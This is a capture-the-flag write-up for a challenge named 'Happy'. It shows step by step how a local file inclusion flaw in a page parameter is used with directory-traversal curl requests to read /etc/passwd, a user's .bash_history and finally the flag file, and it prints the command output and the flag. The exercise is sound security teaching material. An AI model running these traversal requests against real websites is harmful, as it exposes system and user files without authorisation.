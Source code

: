 # Happy Writeup

The web site serves two different pages: a happy and a sad page:

https://happy.tghack/page.php?page=happy/index.php:
![](happy.png)

and
https://happy.tghack.no/page.php?page=sad/index.php:
![](sad.png)

There's nothing interesting in the source code of the pages or in the HTTP(S) headers. However, the URL is quite interesting. It seems like the site loads `index.php` based on a local path. In some cases, we can try to include local files by going outside of the directory containing `happy/index.php` and `/sad/index.php`.

```
$ curl https://happy.tghack.no/page.php\?page\=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
colord:x:112:117:colord colour management daemon,,,:/var/lib/colord:/bin/false
ntp:x:115:120::/home/ntp:/bin/false
bob:x:1001:1001::/home/bob:/bin/bash
```

Nice! This means we have a local file inclusion (LFI) vulnerability! The task description hints that the user Bob has done some shady stuff, and we can see him in the output of the `passwd` file, so we should probably check out his home folder.

From `/etc/passwd` we see that he is using `bash`: `bob:x:1001:1001::/home/bob:/bin/bash`. This means we can try to look at `.bashrc`, `.bash_history`, `.bash_profile` etc. and see if he has any interesting information stored there.


```
$ curl https://happy.tghack.no/page.php\?page\=../../../../home/bob/.bash_history
ls
whoami
mkdir ./my_secret_folder
ls
ls my_secret_folder/
ls
mv my_secret_folder/ .my_secret_folder
ls
vim .my_secret_folder/flag.txt
ls
cd ..
ls
cd bob/
ls
whoami
id
uptime
```

Aha! He has a folder called `.my_secret_folder` that has `flag.txt`!

```
$ curl https://happy.tghack.no/page.php\?page\=../../../../home/bob/.my_secret_folder/flag.txt
TG18{serving_php_by_day_traversing_local_directories_by_night}
```
